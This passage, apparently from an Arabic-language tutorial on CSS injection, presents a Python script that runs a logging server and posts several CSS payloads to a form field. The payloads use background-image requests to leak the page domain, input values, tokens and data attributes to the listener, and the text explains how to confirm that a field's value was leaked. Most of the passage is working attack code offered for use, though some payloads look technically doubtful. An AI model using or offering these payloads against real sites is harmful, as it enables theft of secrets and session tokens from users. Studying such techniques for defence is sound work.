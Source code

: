 #### ب. سكربت أتمتة بسيط
- **السكربت** (مثال بلغة Python مع خادم لتسجيل البيانات):
  ```python
  from http.server import BaseHTTPRequestHandler, HTTPServer
  import urllib.parse
  import requests

  class LogServer(BaseHTTPRequestHandler):
      def do_GET(self):
          self.send_response(200)
          self.end_headers()
          query = urllib.parse.urlparse(self.path).query
          print(f"بيانات مستلمة: {urllib.parse.parse_qs(query)}")

      def do_POST(self):
          self.send_response(200)
          self.end_headers()
          content_length = int(self.headers['Content-Length'])
          post_data = self.rfile.read(content_length).decode()
          print(f"بيانات POST مستلمة: {post_data}")

  payloads = [
      "<div style=\"background-image:url('http://localhost:8000/log?d='+document.domain)\">",
      "<style>input[value=\"secret\"] { background-image:url('http://localhost:8000/log?value=secret'); }</style>",
      "<div style=\"width:expression(alert('XSS'))\">",
      "<style>[data-token=\"abc123\"] { background-image:url('http://localhost:8000/log?token=abc123'); }</style>",
      "<style>p::after { content: attr(data-secret); background-image:url('http://localhost:8000/log?s='+attr(data-secret)); }</style>"
  ]

  target_url = "https://example.com/submit-style"
  for payload in payloads:
      try:
          requests.post(target_url, data={"style": payload})
          print(f"تم إرسال: {payload}")
      except:
          print(f"فشل إرسال: {payload}")
  server = HTTPServer(('localhost', 8000), LogServer)
  print("تشغيل الخادم على http://localhost:8000")
  server.serve_forever()
  ```
- **كيف يعمل**:
  - يُشغل خادمًا محليًا لتسجيل البيانات.
  - يُرسل الحقن إلى نقطة إدخال (مثل حقل نمط) عبر طلب POST.
  - يسجل البيانات المستلمة في الخادم.
- **متى يُستخدم؟**:
  - عند الحاجة لاختبار آلي لنقاط إدخال متعددة.

#### ج. تحليل الاستجابات
- **المحاولات**:
  - قارن البيانات المستلمة في الخادم:
    - **قيم السمات**: تحقق من قيم مثل `value=secret` أو `token=abc123`.
    - **سياق التنفيذ**: تحقق من بيانات مثل النطاق أو عنوان URL.
    - **تنفيذ JavaScript**: تحقق من تنبيهات أو أخطاء في وحدة التحكم (في IE).
  - مثال: إذا تلقى الخادم `value=secret`， فهذا يؤكد نجاح تسريب قيمة الحقل.
- **كيف يعمل**:
  - يتم تسجيل البيانات لتحديد الحقن الناجحة.
- **متى يُستخدم؟**:
  - لتحديد السياقات القابلة للاستغلال.
